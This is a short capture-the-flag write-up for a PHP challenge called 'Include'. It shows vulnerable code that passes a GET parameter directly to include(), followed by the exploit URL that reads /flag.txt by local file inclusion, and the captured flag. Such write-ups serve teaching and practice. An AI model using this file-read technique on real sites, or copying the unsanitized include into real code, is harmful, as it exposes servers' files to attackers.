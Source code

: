 # Include

## Easy

## Description
Yet another buggy PHP website.<br/><br/>
Flag is at /flag.txt on filesystem<br/><br/>
Host 1 (San Francisco): include.sf.ctf.so<br/>
Host 2 (Los Angeles): include.la.ctf.so<br/>
Host 3 (New York): include.ny.ctf.so<br/>
Host 4 (Singapore): include.sg.ctf.so

# Solution
Visiting the site shows us the source code
```PHP
<?php
show_source(__FILE__);
@include $_GET["🤯"];

// Fatal error: Uncaught ValueError: Path cannot be empty in /var/www/html/index.php:3 Stack trace: #0 {main} thrown in /var/www/html/index.php on line 3
```
`@include $_GET["🤯"];` means that the GET variable will be loaded on the site<br/>
Hence, we need to set `/flag.txt` as the GET variable<br/>
Thus, we visit `http://include.sg.ctf.so/?%F0%9F%A4%AF=/flag.txt` to get the flag

> we{695ed01b-3d31-46d7-a4a3-06b744d20f4b@1nc1ud3_/etc/passwd_yyds!}